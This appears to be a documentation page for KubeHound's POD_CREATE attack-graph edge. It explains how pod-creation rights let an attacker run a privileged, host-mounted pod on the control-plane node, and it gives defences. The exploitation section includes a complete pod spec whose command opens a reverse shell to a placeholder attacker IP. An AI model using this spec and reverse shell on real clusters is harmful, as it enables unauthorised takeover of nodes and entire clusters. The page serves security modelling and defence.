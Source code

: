 # POD_CREATE

Create a pod with significant privilege (`CAP_SYSADMIN`, `hostPath=/`, etc) and schedule on a target node via setting the `nodeName` selector.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../vertices/PERMISSIONSET.md) | [Node](../vertices/NODE.md) | [Container Orchestration Job, T1053.007](https://attack.mitre.org/techniques/T1053/007/) |

## Details

Given the rights to create a new pod, an attacker can create a deliberately overprivileged pod within the cluster. This will grant the attacker full control over the node on which the pod is scheduled (via any number of container escape techniques). Additionally by setting the `nodeName` selector in the pod spec to the control plane node, the attacker can gain root access to the control plane node and take over the entire cluster!

## Prerequisites

A role granting permission to create pods.

## Checks

Check whether the current account has the ability to create pods, for example using kubectl:

```bash
kubectl auth can-i create pod
```

## Exploitation

Identify the name of the target (e.g control plane) node via:

```bash
kubectl get nodes -o wide --all-namespaces | grep control-plane
```

Create a pod spec for our attack pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: control-plane-attack
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: control-plane-attack
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" ]
  nodeName: < TARGET NODE NAME > 
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

Create the pod via kubectl:

```bash
kubebctl apply -f control-plane-pod-spec.yaml
```

## Defences

### Monitoring

+ Monitor for pod creation from within an existing pod 
+ Monitor privileged pod creation with suspicious command arguments

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

## Calculation

+ [PodCreate](../../pkg/kubehound/graph/edge/pod_create.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Bad Pods](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1)
